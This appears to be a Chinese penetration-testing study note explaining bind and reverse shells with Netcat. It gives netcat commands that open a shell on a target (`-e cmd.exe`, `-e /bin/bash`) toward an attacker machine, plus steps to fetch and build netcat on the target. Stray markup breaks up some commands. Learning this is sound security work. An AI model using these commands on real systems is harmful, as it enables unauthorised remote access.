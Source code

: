 **建立方式：**攻击者通过某种手段（如利用漏洞）在目标系统上放置恶意代码，该代码会打开一个端口并监听；然后攻击者只需连接到该端口即可获得Shell访问权限。

* **优点：**不需要在自己的网络上进行任何配置；由于Bind Shell在目标系统上监听一个端口，可以一眼快速响应攻击者的连接
* **缺点：**可能会被目标的防火墙阻止


```Bash
#现在目标上执行： 
nc -lvnp <span style="color: #C7D5F6"><port></span> -e "cmd.exe"
#在攻击机上个执行：
nc <span style="color: #C7D5F6">machine_ip <port></span>
```

**Tip:** 交互式程序在非交互式 shell 中无法正常工作（交互式程序：需要用户输入`“yes/no"`）

# 工具

## `Netcat`

* 用于手动执行各种网络交互，包括在枚举过程中抓取 banner
* 用于接收反向`shell`并连接到目标系统上绑定`shell`的远程端口

在目标上手动安装netcat：


```Bash
wget https**:**//nchc**.**dl**.**sourceforge**.**net**/**project**/**netcat**/**netcat**/0.7.1/**netcat**-0.7.1.**tar**.**gz
tar **-**xvzf netcat**-0.7.1.**tar**.**gz
**.**/configure
make **&&** make install
make clean
```

### 用法

#### 获得反向 shell


```Bash
nc -lvnp <port-number>    #在攻击机山开启反向监听
```

* `-l`：用于告诉 netcat 这是一个监听程序
* `-v`：用于请求详细的输出
* `-n`：告诉 netcat 不要解析主机名或 DNS
* `-p`：表示端口规格随后给出
<span style="color: #FBBFBC">Tips：</span>使用小于 1024 的端口时，需要用`sudo`，使用常用端口更可能绕过防火墙的出站规则


```Bash
nc <target-ip> <port> -e <span style="color: #FBBFBC">/bin/bash   </span> #将目标连接攻击机
```

##### Shell 稳定化的方法

> netcat 获得的 shell 默认很不稳定，按下`Ctrl+C`会彻底关闭程序，且是非交互式的，经常会出现奇怪的格式错误。因为`netcat shell`实际上是运行终端的进程，不是真正意义上的终端。
